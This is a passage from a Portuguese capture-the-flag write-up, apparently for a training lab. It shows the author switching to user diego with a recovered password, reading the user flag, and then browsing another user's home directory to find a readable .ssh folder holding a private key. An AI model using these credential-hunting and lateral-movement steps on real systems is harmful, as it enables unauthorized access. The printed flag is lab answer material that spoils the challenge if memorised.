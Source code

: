 Consegui a senha dos usuários diego e gege. Vou tentar me autenticar com diego.

```bash
www-data@ip-10-10-151-222:/opt$ su diego
Password: 
diego@ip-10-10-151-222:~$ 

```

Consegui a primeira flag.

```bash
diego@ip-10-10-151-222:~$ ls -la
total 24
drwxr-x--- 2 diego internal 4096 Aug 18  2023 .
drwxr-xr-x 8 root  root     4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 diego diego     220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 diego diego    3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 diego diego     807 Feb 25  2020 .profile
-rw-r--r-- 1 root  root       33 Aug 16  2023 user.txt
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@ip-10-10-151-222:~$ cat user.txt 
45edaec653ff9ee06236b7ce72b86963
diego@ip-10-10-151-222:~$ 

```

Após listar crontab e permissões sudo, resolvi procurar a pasta de outros usuários.

Eis o que eu achei.

```bash
diego@ip-10-10-151-222:/home/think$ ls -la
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 8 root  root     4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@ip-10-10-151-222:/home/think$ cd .ssh
diego@ip-10-10-151-222:/home/think/.ssh$ ls -la
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
diego@ip-10-10-151-222:/home/think/.ssh$

```
